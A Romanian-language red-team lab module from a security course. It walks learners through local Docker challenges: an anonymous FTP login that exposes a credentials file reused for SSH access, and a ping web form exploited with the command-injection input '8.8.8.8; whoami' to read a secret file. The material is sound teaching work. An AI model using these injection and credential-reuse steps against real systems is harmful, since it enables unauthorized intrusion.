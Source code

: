 ## Red Team

**Red Team** este acea echipa de specialisti care trebuie sa gandeasca asemeni unui atacator.
Echipa este fie interna companiei in care activeaza, fie externa si activeaza la cererea companiei ce cumpara serviciile lor.
Scopul lor este sa emuleze atacuri, sa documenteze tot procesul si apoi sa propuna modalitati de imbunatatire a securitatii.

Este o modalitate **legala** pentru specialisti sa isi puna in practica notiunile si sa ajute in acelasi timp la securizarea diferitelor entitati.

O parte din activitatile pe care **Red Team** le poate efectua sunt:

- Securitate fizica
  - Incearca sa intre in cladire, sa fure dispozitive, sa pacaleasca angajati
- Dumpster Diving
  - Cauta in gunoi documente sau postit-uri cu parole
- Social Engineering
  - Phishing
  - Email-uri malitioase
- OSINT
  - Inventarierea sistemelor companiei
  - Scanarea sistemelor companiei
  - Verificare daca emailurile companiei sunt compromise
- Exploatare activa a sistemelor
  - Utilizarea exploit-urilor publice
  - Inspectie manuala a serviciilor expuse

### Activitati practice

Intrati in directorul `support/red-team/` si parcurgeti exercitiile de mai jos.

1. Accesati directorul `anonymous/remote/` si rulati comanda `make run`.
   Comanda va lansa in executie un container `Docker` aferent challenge-ului `anonymous`.

   Containerul expune doua porturi importante, si anume `10021` si `10022`.
   Portul `10021` expune serviciul `FTP` iar Portul `10022` expune serviciul `SSH`.
   Prima data vom interactiona cu serviciul `FTP`.

   Puteti interactiona cu serviciul `FTP` folosind comanda:

   ```
   $ ftp 0.0.0.0 10021
   ```

   Serverul are functionalitatea de `anonymous login` activata.
   Acest lucru este o practica gresita de aproape fiecare data si trebuie evitata.
   Se poate folosi doar in cazurile in care vrem sa expunem **in mod public** fisiere accesibile fara restrictii.

   Pentru mai multe detalii, accesati sectiunea `What is anonymous FTP` de la urmatorul link:

   - [How to Use Anonymous FTP](https://www.rfc-editor.org/rfc/rfc1635.html)

   Userul `anonymous` este un user limitat facut cu scopul de a oferi acces public unor anumite resurse.
   Informatia esentiala din resursa indicata este ca userul `anonymous` accepta orice parola.

   Drept urmare, putem folosi urmatoarea succesiune de actiuni in linie de comanda pentru a ne conecta la serverul ce ruleaza local:

   ```
   $ ftp 0.0.0.0 10021
   # introduceti manual: user: anonymous
   # introduceti manual: password: pass
   ```

   Rezultatul ar trebui sa fie:

   ```
   Connected to 0.0.0.0.
   220 (vsFTPd 3.0.3)
   Name (0.0.0.0:long): anonymous
   331 Please specify the password.
   Password: 
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   ftp>
   ```

   Pentru a lista fisierele la care avem acces, folositi comanda `passive on` urmata de comanda `ls`.
   Rezultatul ar trebui sa fie:

   ```
   ftp> passive on
   Passive mode: on; fallback to active mode: off.
   ftp> ls
   229 Entering Extended Passive Mode (|||65455|)
   150 Here comes the directory listing.
   -rw-r--r--    1 0        0              27 Oct 31 14:21 credentials.txt
   226 Directory send OK.
   ftp>
   ```

   Observam ca serverul expune fisierul `credentials.txt`.
   Deseori programatorii uita ce fisiere lasa publice si se pot ajunge la situatii nedorite.

   Cum accesul la fisier este nerestrictionat, acesta poate fi downloadat folosind comanda `get credentials.txt`.
   Rezultatul ar trebui sa fie:

   ```
   ftp> get credentials.txt
   local: credentials.txt remote: credentials.txt
   229 Entering Extended Passive Mode (|||65437|)
   150 Opening BINARY mode data connection for credentials.txt (27 bytes).
   100% |******************************************************************************************************************************************|    27        0.42 KiB/s    00:00 ETA
   226 Transfer complete.
   27 bytes received in 00:00 (0.41 KiB/s) 
   ```

   Acum putem folosi comanda `exit` pentru a inchide conexiunea cu serverul `FTP`.
   Rezultatul ar trebui sa fie:

   ```
   ftp> exit
   221 Goodbye.
   ```

   Acum avem local fisierul `credentials.txt` al carui continut il putem expune cu urmatoarea comanda:

   ```
   $ cat credentials.txt
   ```

   Rezultatul ar trebui sa fie:

   ```
   $ cat credentials.txt
   ctf:anonymous-account-pass
   ```

   Cea mai des folosita sintaxa de precizare a credentialelor este de forma `username:parola`.
   Observam ca asta contine si fisierul nostru.

   Acum putem incerca sa folosim credentialele pentru a ne loga prin intermediul `SSH`.
   Vom face acest lucru cu userul `ctf` si parola `anonymous-account-pass`.
   Comanda folosita este:

   ```
   ssh ctf@0.0.0.0 -p 10022
   # introducem manual parola `anonymous-account-pass`
   # introducem manual `yes` pentru a continua conectarea atunci cand suntem intrebati
   ```

   Rezultatul ar trebui sa fie:

   ```
   $ ssh ctf@0.0.0.0 -p 10022
   The authenticity of host '[0.0.0.0]:10022 ([0.0.0.0]:10022)' can't be established.
   ED25519 key fingerprint is SHA256:r4/eDTkhYoYa8fgSaLMUsyQJAGsSaq+5rX2FGAB0CJc.
   This key is not known by any other names
   Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   Warning: Permanently added '[0.0.0.0]:10022' (ED25519) to the list of known hosts.
   ctf@0.0.0.0's password: 
   Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

   This system has been minimized by removing packages and content that are
   not required on a system that users do not log into.

   To restore this content, you can run the 'unminimize' command.

   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.


   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   ctf@03ca22e3acdb:~$
   ```

   Listati continutul fisierului `secret` disponibil la calea `/home/ctf/secret`.

   Odata ce aveti un input care functioneaza corespunzator, incercati acelasi input si la adresa TODO.

1. Accesati directorul `pingme/remote/` si rulati comanda `make run`.
   Comanda va lansa in executie un container `Docker` aferent challenge-ului `pingme`.
   O aplicatie web minimala este expusa pe portul `10002` al masinii locale.

   Observati ca aplicatia executa comanda `ping` catre o adresa IP data de utilizator.

   Putem presupune ca aplicatia executa intr-o linie de comanda pe server urmatoarea comanda:

   ```
   $ ping <input>
   ```

   Unde `<input>` este orice introduce utilizatorul in campul din pagina.
   In consecinta, un utilizator al aplicatiei **injecteaza comenzi** direct intr-o linie de comanda aflata pe un server la distanta.

   Cunoscand faptul ca operatorul `;` delimiteaza comenzi si permite rularea mai multor comenzi intr-o singura linie, putem folosi `8.8.8.8; whoami` ca si input.
   In acest fel, comenzile care s-ar executa pe server conform presupunerilor noastre sunt:

   ```
   $ ping 8.8.8.8; whoami
   ```

   Validati presupunerile anterioare contra aplicatiei expuse pe `0.0.0.0:10002`.

   Scopul este sa accesati fisierul `/secret` de pe server.
   Pentru a accesa acest fisier, folositi utilitarul `cat` si faptul ca aveti informatia ca fisierul cautat se afla sub calea `/secret`.

   Odata ce aveti un input care functioneaza corespunzator, incercati acelasi input si la adresa TODO.

### Quiz

[Quiz](../quiz/red-team.md)

